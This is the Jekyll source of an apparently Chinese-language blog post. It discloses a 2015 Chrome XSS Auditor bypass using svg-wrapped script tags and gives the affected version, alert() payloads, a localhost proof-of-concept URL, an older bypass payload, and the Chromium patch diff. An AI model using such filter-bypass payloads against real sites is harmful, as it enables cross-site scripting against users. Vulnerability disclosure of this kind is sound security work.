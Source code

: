 ```yaml
---
layout: post
title: Google Chrome Anti-XSS Filter Bypass
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

#### First

众所周知Chrome浏览器的Xss Filter是基于模糊匹配敏感关键字的方式进行拦截外部JavaScript脚本注入的，然而可以通过svg标签绕过Xss Filter.

<img src="http://pfr2vvlbk.bkt.clouddn.com/ysao8.png">

#### Details

	Affected Products:
	Google Chrome 43.0.2357.124 m (letest stable version)
	
	Discovery Date:
	16-06-15
	
	Payload:
	<svg><script>/<1/>alert()</script></svg>
	<svg><script>0<1>alert(document.domain)</script></svg>

#### POC

`OSX & Chrome 43.0.2357.65`

	http://127.0.0.1/demo.php?xss=<svg><script>/<1/>alert(document.domain)</script></svg>

<img src="http://pfr2vvlbk.bkt.clouddn.com/4rywe7.png">

> 13年Gainover也分享过一个svg标签Bypass Chrome Xss Filter的Payload:`<svg><script xlink:href=data:,alert(1)></script></svg>`现已失效.

#### Patch

	Index: Source/core/html/parser/XSSAuditor.cppt a/Source/core/html/parser/XSSAuditor.cpp b/Source/core/html/parser/XSSAuditor.cpp
	index a1e1852201d23ac858c3b5065a2e26f52d128f4d..e73259145366c12c821a710fe83d3637529478ee 100644
	--- a/Source/core/html/parser/XSSAuditor.cpp
	+++ b/Source/core/html/parser/XSSAuditor.cpp
	@@ -471,15 +471,18 @@ bool XSSAuditor::filterCharacterToken(const FilterTokenRequest& request)
	if (m_state == PermittingAdjacentCharacterTokens)
	     return false;
 
	-    if ((m_state == SuppressingAdjacentCharacterTokens)
	-        || (m_scriptTagFoundInRequest && isContainedInRequest(canonicalizedSnippetForJavaScript(request)))) {
	+    if (m_state == FilteringTokens && m_scriptTagFoundInRequest) {
	+        String snippet = canonicalizedSnippetForJavaScript(request);
	+        if (isContainedInRequest(snippet))
	+            m_state = SuppressingAdjacentCharacterTokens;
	+        else if (!snippet.isEmpty())
	+            m_state = PermittingAdjacentCharacterTokens;
	+    }
	+    if (m_state == SuppressingAdjacentCharacterTokens) {
         request.token.eraseCharacters();
         request.token.appendToCharacter(' '); // Technically, character tokens can't be empty.
	-        m_state = SuppressingAdjacentCharacterTokens;
         return true;
     }
	-
	-    m_state = PermittingAdjacentCharacterTokens;
     return false;
	 }

#### Other

* <a target="_blank" href="http://vulnerable.info/browsers/bypassing-chromes-anti-xss-filter/">Bypassing Chrome’s Anti-XSS Filter</a>

* <a target="_blank" href="https://codereview.chromium.org/1187843005/">Issue 1187843005: XSSAuditor: Dont give a pass to subsequent script blocks if first one is empty. (Closed)</a>
